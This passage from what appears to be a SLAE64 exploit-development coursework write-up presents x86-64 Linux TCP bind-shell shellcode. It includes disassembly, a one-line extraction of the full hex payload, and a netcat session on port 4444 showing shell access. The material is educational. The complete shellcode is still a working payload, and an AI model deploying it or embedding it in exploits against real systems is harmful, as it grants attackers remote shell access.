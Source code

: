 ```shell
  400115:	0f 05                	syscall 
  400117:	48 31 c0             	xor    rax,rax
  40011a:	48 83 c0 21          	add    rax,0x21
  40011e:	48 31 f6             	xor    rsi,rsi
  400121:	48 83 c6 02          	add    rsi,0x2
  400125:	0f 05                	syscall 
  400127:	48 31 c0             	xor    rax,rax
  40012a:	50                   	push   rax
  40012b:	48 bb 2f 62 69 6e 2f 	movabs rbx,0x68732f2f6e69622f
  400132:	2f 73 68 
  400135:	53                   	push   rbx
  400136:	48 89 e7             	mov    rdi,rsp
  400139:	50                   	push   rax
  40013a:	48 89 e2             	mov    rdx,rsp
  40013d:	57                   	push   rdi
  40013e:	48 89 e6             	mov    rsi,rsp
  400141:	48 83 c0 3b          	add    rax,0x3b
  400145:	0f 05                	syscall
```

The updated bind shellcode can be seen below in one line:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/1_Shell_bind_tcp$ objdump -d ./bind-shellcode-course |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xb0\x29\x48\x31\xff\x48\x83\xc7\x02\x48\x31\xf6\x48\x83\xc6\x01\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x50\x89\x44\x24\xfc\x66\xc7\x44\x24\xfa\x11\x5c\xc6\x44\x24\xf8\x02\x48\x83\xec\x08\x48\x83\xc0\x31\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x10\x0f\x05\x48\x31\xc0\x48\x83\xc0\x32\x48\x31\xf6\x48\x83\xc6\x02\x0f\x05\x48\x31\xc0\x48\x83\xc0\x2b\x48\x83\xec\x10\x48\x89\xe6\xc6\x44\x24\xff\x10\x48\x83\xec\x01\x48\x89\xe2\x0f\x05\x49\x89\xc1\x48\x31\xc0\x48\x83\xc0\x03\x0f\x05\x4c\x89\xcf\x48\x31\xc0\x48\x83\xc0\x21\x48\x31\xf6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\x31\xf6\x48\x83\xc6\x01\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\x31\xf6\x48\x83\xc6\x02\x0f\x05\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"
```

Also, in order to prove the functionality of the bind shell we execute in one terminal window the bind executable and in another we execute `nc` to connect to port `4444`.

1<sup>st</sup> window:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/1_Shell_bind_tcp$ ./bind-shellcode-course
```

2<sup>nd</sup> window:

```shell
geobour98@slae64-dev:~$ nc localhost 4444
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
bind-c
bind-c.c
bind-shellcode-course
bind-shellcode-course.nasm
bind-shellcode-course.o
bindshell
bindshell.nasm
bindshell.o
compile.sh
```
